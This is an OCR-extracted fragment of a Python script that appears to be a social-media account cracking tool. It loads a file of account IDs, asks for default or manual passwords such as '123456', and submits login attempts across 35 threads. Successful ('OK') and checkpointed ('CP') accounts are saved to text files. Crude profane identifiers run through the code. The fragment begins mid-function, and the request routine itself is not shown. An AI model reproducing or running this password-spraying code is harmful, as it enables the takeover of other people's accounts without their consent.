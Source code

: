             print('\n\n[*] Token Expired ')
            time.sleep(1)
            login()
 
def banner():
	 print('hi')
def hasil(ok,cp):
    if len(ok) != 0 or len(cp) != 0:
        IMTIAZ_AKING('\n\n\033[0m The Prosess Done...')
        IMTIAZ_AKING('\n\033[1;92mTotal OK : %s •  Total CP : %s'%(str(len(ok)),str(len(cp))));exit()
        #SUBHAN_KHAN('\033[1;91mCHECK > %s'%(str(len(cp))));exit()
    else:
        IMTIAZ_AKING('\n\033[0mUps..Tidak Mendapatkan Hasil')
        exit()
class __crack__:
    def __init__(self):
        self.id = []
    def plerr(self):
        try:
            self.apk = input(" [*] File Name : ")
            print (' \x1b[1;91m❥━[\x1b[1;93m•\x1b[1;91m]\x1b[1;93m=============================================')
            self.id = IMTIAZ(self.apk).read().splitlines()
            IMTIAZ_AKING(' [*] Total ID : %s'%(len(self.id)))
            print (' [✓] Are You Went To Continue : Type Y')
        except:
            IMTIAZ_AKING('\n [!] File Not Found In Storage')
            input('\n [*] Press Enter To Back');readline___Public_Xml();print("[M] Menual Password ");print('[D] Default Password ')
            
        _jokowi_kontol_ = input(" [*] Choose : ")
        if _jokowi_kontol_ in ('M', 'm'):
            print('[*] Function Added in new update ')
            
            IMTIAZ_AKING('\nEnter Password 123456 or 123456789 For OLd Idz ')
            while True:
                pwek = input('\nEnter Password : ')
                #SUBHAN_KHAN('Sandi > %s'%(pwek))
                if pwek == '':
                    IMTIAZ_AKING('\nJangan Kosong')
                    time.sleep(1)
                    exit()
                elif len(pwek)<=5:
                    IMTIAZ_AKING('\nSandi Harus 6 Karakter Lebih Tidak Masalah')
                else:
                    def _sempak_(bse=None):
                        boy = input('\nPilih : ')
                        if boy == '':
                            IMTIAZ_AKING('\nJangan Kosong')
                            time.sleep(1);self._sempak_()
                        elif boy == "1" or boy == "01":
                            IMTIAZ_AKING('\n[•] Result OK saved to IDREESOK.txt')
                            IMTIAZ_AKING('[•] Result CP saved to IDREESCP.txt')
                            IMTIAZ_AKING('\n\tCrack Processing...\n')
                            IMTIAZ_AKING('\n\tCrack Processing...\n\n'); 
                            with ThreadPoolExecutor(max_workers=35) as (_ngentot_gratis_):
                                for ikeh in self.id:
                                    try:
                                        kimochi = ikeh.split('|')[0]
                                        _ngentot_gratis_.submit(self.__api__, kimochi, bse)
                                    except: pass
 